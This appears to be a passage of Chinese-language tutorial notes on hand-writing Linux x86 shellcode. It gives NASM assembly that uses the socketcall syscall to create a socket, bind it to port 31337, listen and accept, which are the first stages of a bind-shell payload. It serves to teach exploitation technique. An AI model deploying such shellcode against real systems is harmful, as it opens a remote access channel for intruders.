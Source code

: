 在linux中，可以直接和内核进行交互调用一个叫`socketcall`的syscall来使用这些函数

    ~/Work/notes/shellcode ⮀ grep socketcall /usr/include/asm/unistd_32.h 
    #define __NR_socketcall 102

函数的用法`man socketcall`。第一个参数在`/usr/include/linux/net.h`中寻找。

那么，在我们的shellcode中实现和C中一样，只是直接调用了系统调用socketcall。

首先建立一个套接字，用法请自行`man socket`。

    int socket(int domain, int type, int protocol);
    
协议族(domain)是2(`PF_INET`，或者`AF_INET`,一样的)，类型(type)为1(`SOCK_STREAM`)，协议(protocol)为0(这个协议族只有一个协议，0就可以了)。奇怪这些数字哪里来的？`cat /usr/include/bits/socket.h`中自行grep。

当我们用如下汇编语言来进行syscall之后，套接字句柄返回到eax中，我们用一个高效精简的指令把它放到esi中暂存。

```nasm
; s = socket(2, 1, 0) or socketcall(1, &(2,1,0))
  push BYTE 0x66 	; syscall 102
  pop eax 
  cdq 		; 将eax扩展为保存在eax:edx中的64位数，将edx清为0
  xor ebx, ebx 	; 将ebx清0
  inc ebx 		; 1 = socket()
  push edx		; 将NULL推入堆栈 参数列表 ( protocol = 0
  push BYTE 0x1	; 将8位1推入栈   (逆序)      SOCK_STREAM = 1
  push BYTE 0x2	; 将8位2推入栈               AF_INET = 2)
  mov ecx, esp 	; 将栈顶地址推入ecx
  int 0x80
```

接下来,将该套接字绑定(bind)到端口31337上,监听(listen)此端口,接收(accept)。方式和以上完全一样，不做详细解释。只在汇编程序中做一些必要的注释。遇到问题请man.

```nasm
; bind(s, [2, 31337, 0], 16)
  push BYTE 0x66
  pop eax
  inc ebx
  push edx
  push WORD 0x697a; inverse order
  push WORD bx
  mov ecx, esp ; server struct pointer
  push BYTE 16
  push ecx
  push esi
  mov ecx, esp; argument array
  int 0x80

; listen(s, 0)  
  mov BYTE al, 0x66
  inc ebx
  inc ebx
  push ebx
  push esi
  mov ecx, esp
  int 0x80

; c = accept(s, 0, 0)
  mov BYTE al, 0x66
  inc ebx
  push edx
  push edx
  push esi
  mov ecx, esp; ecx=argument array
  int 0x80
```
